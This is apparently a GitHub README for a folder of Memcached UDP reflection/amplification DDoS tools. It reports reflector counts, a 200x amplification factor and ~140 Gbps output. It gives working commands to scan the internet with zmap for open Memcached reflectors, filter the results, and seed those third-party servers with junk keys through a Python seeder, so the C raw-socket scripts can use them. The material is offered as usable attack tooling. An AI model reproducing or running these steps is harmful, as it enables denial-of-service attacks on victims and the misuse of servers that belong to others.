 # MemcacheD (Active Q3 2020)

## Port: 11211

## Proto: UDP

## Amplification factor: 200x (Q2 2020 - using `memcached-static.c` script)

## Reflector count: ~1,500 (Sept 2020)

## Remediation Progress - 400 less reflectors at Q3 2020 than at Q2 2020

---

Amplification scripts in this folder:

* **memcached-dynamic.c** - Dynamic key reflection query generator C script (raw sockets)
* **memcached-static.c** - Static key reflection template C socket script (raw sockets)

This folder holds all relevant scripts for Memcache amplification (in 2020) utilising either dynamic `<ip> <value>` mg/get/gets command to the effect of garnering the largest amplification factor per IP with the least amount of work (**see memcached-filter.py**); alternatively utilising static gets command to known memcache keys that are pre-seeded from a list file.

Memcache Daemon has thankfully been patched and most old and vulnerable devices have been removed from the internet following the [1.7tbps attack incident back in 2017](https://www.zdnet.com/article/new-world-record-ddos-attack-hits-1-7tbps-days-after-landmark-github-outage/) through efforts of the community at large.

### How does it work

* Using Python to dynamically seed MemcacheD devices that respond to "stats items" query, with bogus data to keys of length 1 that are then used by dynamic or static amplification scripts.
* Either dynamic script (scanned and filtered list of keys) or static script (pre-seeded keys) to generate amplification via raw sockets.

### How to use

1. First use zmap to scan for all reflectors responding to "stats items":

    ```bash
    echo -ne '\x00\x01\x00\x00\x00\x01\x00\x00stats items\r\n' > memcached_probe.pkt
    ```

    ```bash
    zmap -p11211 --output-filter='sport=11211' -Mudp --probe-args=file:memcached_probe.pkt \
        -f "saddr,udp_pkt_size,data" -o ~/memcached.alive.txt
    ```

2. Filter list using this command (this removes bogus responses and cleans up the list):

    ```bash
    cat ~/memcached.alive.txt | sed 's/,/ /g' | sed 's/saddr.*//g' \
    | awk '$3~/53544154/ || $3~/454e44/ || $3~/737461747320/' \
    | awk '{print $1}' | sort -u > memcached.list.txt;wc -l memcached.list.txt
    ```

3. Download the list file `memcached.list.txt` as this will be usable by the C scripts in this folder as well.

4. Run the seeding process:

   * This just uses a junkfile to hold output which is erased at the start if it exists, thus you can paste the entire line in over and over to seed the IPs present in the `memcached.list.txt` file!

    ```bash
    rm junkfile;shuf memcached.list>shufflejunk;mv shufflejunk memcached.list; \
    screen -dmS seeder python3 memecached-seeder.py memcached.list junkfile
    ```

### ~140 Gbps output with 600 Mbps input as at Q2 2020
